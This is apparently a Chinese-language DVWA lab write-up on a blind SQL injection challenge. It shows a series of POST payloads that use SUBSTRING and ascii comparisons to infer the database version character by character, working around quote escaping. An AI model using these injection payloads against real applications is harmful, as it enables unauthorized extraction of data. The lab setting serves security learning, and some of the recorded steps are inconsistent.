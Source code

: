 # SQL Injection (Blind)

> Objective:
Find the version of the SQL database software through a blind SQL attack.
>

> Objective:
Find the version of the SQL database software through a blind SQL attack.
>

### 觀察
這關也是改用 POST
先透過上一關驗證一下 VERSION 語法

```sql
id=1 UNION select 1,VERSION(); &Submit=Submit
```
```sql
id=1 UNION SELECT 1,SUBSTRING((SELECT @@version),1,20); &Submit=Submit
```
```sql
SELECT 1,SUBSTRING((SELECT @@version),1,20);
```

```sql
SELECT SUBSTRING((SELECT @@version),1,20);
```

```sql
(SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%');
```

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,20)); &Submit=Submit
```

### 參考之前已經得知的版本

```jsx
10.1.26-MariaDB-0+de
```

false

```sql
1 AND (SELECT SUBSTRING((SELECT @@version),1,20) like '10.1.26%')
```

只能多嘗試，後來發現可能是單引號的問題，看起來是因為 POST data 的關係，payload 被視為字串，先換成 `=` 來測試

```sql
(SELECT SUBSTRING((SELECT @@version),1,1)) = 1
```

true (`User ID exists in the database.`)

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,1)) = 1 &Submit=Submit
```

true (`User ID exists in the database.`)

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,2)) = 10 &Submit=Submit
```

false

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,2)) = 12 &Submit=Submit
```

...

理論上應該是可以猜出 DB 的本版

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,3)) = 10.);&Submit=Submit
```

### 卡關 QQ

### 卡關 QQ

但如果再增加下去 10.x.x 的判斷會無效，崩潰

換個環境再測 db 是 `5.7.34` ，也是第二個小數點之後無法正常判斷，頂多只能判斷到 5.7

看提示說這關有使用 `mysql_real_escape_string()` ，會將 \x00, \n, \r, \, ', ", \x1a 跳脫

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,5)) = 10.10&Submit=Submit
```

```sql
id=1 AND (SELECT @@version) like 10.1.26-MariaDB-0+de&Submit=Submit
```

```sql
id=1 AND SELECT (SELECT @@version)) = 5.7.34&Submit=Submit
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ffffd1c6-c73a-4723-9dba-eda574016665/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220216%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220216T162046Z&X-Amz-Expires=86400&X-Amz-Signature=996d44a6b6eb9f6ff039d065ca28e6c15f2dae3bc3edbef07c9a1fb524da51da&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

# Update - February 21, 2022

```sql
SELECT 1, (SELECT (version())) <> 0;
```

```sql
id=1 AND (SELECT version() <> 0); &Submit=Submit
# User ID exists in the database
```

```sql
id=1 AND (SELECT version() = 5.7); &Submit=Submit
# User ID exists in the database
```

```sql
id=1 AND (SELECT version() = '5.7.34'); &Submit=Submit
# User ID is MISSING in the database
```

也是無法完整猜測

### Done

因此參考別人的 writeup 後才知道可以用 `ascii` 將字串轉換成數字，這樣就可以不用擔心單引號被過濾了，基本上這邊只要能轉換成數字型態就可以了

```sql
SELECT SUBSTRING((SELECT @@version),1,6)
# 5.7.34
```

5

```sql
SELECT 1=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),1,1)) = 53); &Submit=Submit
# User ID is MISSING in the database
```

SUBSTRING((SELECT @@version),2,1) 代表第2個字串的值

```sql
select SUBSTRING((SELECT @@version),2,1);
# .
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),2,1)) = 46); &Submit=Submit
# User ID exists in the database
```

7

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),3,1)) = 55); &Submit=Submit
# User ID exists in the database
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),4,1)) = 46); &Submit=Submit
# User ID exists in the database
```

3

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),5,1)) = 51); &Submit=Submit
# User ID exists in the database
```

.

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),6,1)) = 46); &Submit=Submit
# User ID is MISSING in the database
```

4

```sql
id=1 AND (SELECT ascii(SUBSTRING((SELECT @@version),6,1)) = 52); &Submit=Submit
# User ID exists in the database
```

從上面嘗試的結果就可以推敲出版本

```
5.7.34
```

---
# Ref

- DVWA 通关指南：SQL Injection-Blind(SQL 盲注) - 乌漆WhiteMoon - 博客园
[https://www.cnblogs.com/linfangnan/p/13694057.html](https://www.cnblogs.com/linfangnan/p/13694057.html)

- SQL CAST and SQL CONVERT function overview
[https://www.sqlshack.com/overview-of-the-sql-cast-and-sql-convert-functions-in-sql-server/](https://www.sqlshack.com/overview-of-the-sql-cast-and-sql-convert-functions-in-sql-server/)
